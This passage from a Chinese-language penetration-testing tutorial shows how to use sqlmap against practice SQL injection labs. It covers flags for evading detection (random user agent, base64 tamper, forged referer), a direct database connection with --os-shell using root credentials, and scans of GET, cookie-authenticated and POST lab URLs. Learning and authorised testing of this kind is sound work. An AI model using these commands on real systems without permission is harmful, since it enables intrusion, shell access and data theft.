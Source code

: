 ```python
　　S: Stacked queries SQL injection（可多语句查询注入）
　　T: Time-based blind SQL injection（基于时间延迟注入）

sqlmap -d "mysql://root:root@192.168.10.130:3306/mysql" --os-shell   #知道网站的账号密码直接连接

-v3                   #输出详细度  最大值5 会显示请求包和回复包
--threads 5           #指定线程数
--fresh-queries       #清除缓存
--flush-session       #清空会话，重构注入 
--batch               #对所有的交互式的都是默认的
--random-agent        #任意的http头
--tamper base64encode            #对提交的数据进行base64编码
--referer http://www.baidu.com   #伪造referer字段

--keep-alive     保持连接，当出现 [CRITICAL] connection dropped or unknown HTTP status code received. sqlmap is going to retry the request(s) 保错的时候，使用这个参数
```

### 探测指定URL是否存在SQL注入漏洞

**对于不用登录的网站**，直接指定其URL

```python
sqlmap -u  "http://192.168.137.128/pentest/sqlilabs/Less-1/?id=1"  #探测该url是否存在漏洞
```

在探测目标URL是否存在漏洞的过程中，Sqlmap会和我们进行交互。

比如第一处交互的地方是说这个目标系统的数据库好像是Mysql数据库，是否还探测其他类型的数据库。我们选择 n，就不探测其他类型的数据库了，因为我们已经知道目标系统是Mysql数据库了。

第二处交互的地方是说 对于剩下的测试，问我们是否想要使用扩展提供的级别(1)和风险(1)值的“MySQL”的所有测试吗？ 我们选择 y。

[![img](https://p2.ssl.qhimg.com/t01402f9ea9562a8e25.png)](https://p2.ssl.qhimg.com/t01402f9ea9562a8e25.png)

第三处交互是说已经探测到参数id存在漏洞了，是否还探测其他地方，我们选择 n 不探测其他参数了 。

最后sqlmap就列出了参数id存在的注入类型是boolean盲注，还有payload其他信息也显示出来了，最后还列出了目标系统的版本，php，apache等信息。

[![img](https://p1.ssl.qhimg.com/t018ffeaea388a20f96.png)](https://p1.ssl.qhimg.com/t018ffeaea388a20f96.png)

这次探测的所有数据都被保存在了 **/root/.sqlmap/output/192.168.10.1/** 目录下

[![img](https://p4.ssl.qhimg.com/t0109afcd10954974f6.png)](https://p4.ssl.qhimg.com/t0109afcd10954974f6.png)

**对于需要登录的网站**，我们需要指定其cookie 。我们可以用账号密码登录，然后用抓包工具抓取其cookie填入

```python
sqlmap -u  "http://192.168.10.1/sqli/Less-1/?id=1"   --cookie="抓取的cookie"  #探测该url是否存在漏洞
```

**对于是post提交数据的URL**，我们需要指定其data参数

```python
sqlmap -u "http://192.168.10.1/sqli/Less-11/?id=1" --data="uname=admin&passwd=admin&submit=Submit"  #抓取其post提交的数据填入
```
